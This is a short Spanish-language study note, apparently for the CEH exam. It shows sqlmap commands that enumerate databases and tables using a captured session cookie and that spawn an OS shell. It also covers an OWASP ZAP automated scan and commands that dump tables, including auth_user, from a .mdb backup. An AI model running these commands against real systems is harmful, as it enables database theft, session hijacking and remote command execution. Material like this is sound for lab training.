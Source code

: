 # [](#header-1)<a id="sqlmap">SQL CEH</a>
## [](#header-2)SQLi sqlmap
Primero podemos hacer una enumeracion de las bases de datos. 
```s
sqlmap -u [URL] --cokie="COOKIE" --dbs
```
Después podemos enumerar las tablas dentro de una base de datos:
```s
sqlmap -u [URL] --cokie="COOKIE" -D moviescope --tables
```

Podemos mandar a traernos una shell con:
```s
sqlmap -u [URL] --cokie="COOKIE" --os-shell
#Comandos de sqlmap shell
hostname
TASKLIST
help
```
En este ejercicio, para extraer la cookie, en la consola ejecutó document.cookie

## [](#header-2)Detection SQLi Vulnerabilities OWASP ZAP
Para entrar a la aplicación, esta se encuentra en la maquina windows y nombre ZAP OWASP
Dentro de la aplicacion seleccionamos la opcion: Automated scan. Una vez seleccionado la opcion podremos poner la URL. Iniciamos el escaneo, y ahora en el apartado de Alerts podremos ver las vulnerabilidades(Bajas, medias y altas) de SQL, entre otras.

## [](#header-2)Lectura de archivos de DB
En esta ocasion me encontre con un archivo con extension .mdb, el cual para enumerarlo se usaron los siguientes comandos:
```s
mdb-tables backup.mdb

mdb-export backup.mdb acc_antiback

mdb-export backup.mdb acc_door

mdb-export backup.mdb acc_firstopen
#Iteracion en las tablas para encontrar contenido
mdb-tables backup.mdb | tr ' ' '\n' | grep . | while read table; do lines=$(mdb-export backup.mdb $table | wc -l); if [ $lines -gt 1 ]; then echo "$table: $lines"; fi; done

mdb-export backup.mdb auth_user
```